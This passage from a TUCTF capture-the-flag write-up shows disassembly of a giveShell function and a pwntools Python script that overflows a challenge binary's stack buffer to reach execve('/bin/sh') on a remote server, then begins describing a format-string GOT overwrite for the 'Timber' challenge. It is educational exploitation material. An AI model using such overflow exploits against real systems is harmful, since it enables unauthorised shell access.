 ```
[0x08048340]> pd 8 @ sym.giveShell+6
|           0x0804845e      6a00           push 0
|           0x08048460      6a00           push 0
|           0x08048462      6800850408     push str.bin_sh             ; 0x8048500 ; "/bin/sh"
|           0x08048467      e8b4feffff     call sym.imp.execve
|           0x0804846c      83c40c         add esp, 0xc
|           0x0804846f      90             nop
|           0x08048470      c9             leave
\           0x08048471      c3             ret
```

And there we have it, a rop gadget that will open a shell for us. All we have to do is to overwrite the ret pointer to `0x0804845e`, and we are set.

Here is the python exploit:

```python
from pwn import *

# sh = process('./shella-hard')
sh = remote('3.16.169.157', 12345)

giveShell = 0x08048458

payload = 'a'*20
payload += p32(giveShell+6)

sh.sendline(payload)

sh.interactive()
```

flag: `TUCTF{175_wh475_1n51d3_7h47_c0un75}`

# Timber

## Problem

Difficulty: easy
Are you a single lumberjack tired of striking out?
Well not with Timber!
Our deep learning neural network is sure to find a perfect match for you. Try Timber today!

nc 18.222.250.47 12345

[timber](/blog/2018/tuctf-writeup/Timber/timber)

## Solution

This is a hard version of [Ehh](#ehh). We have to again use a format string attack to overwrite some values. This time, we have to overwrite the GOT entry table and call the `date` function which is, in fact, a win function.
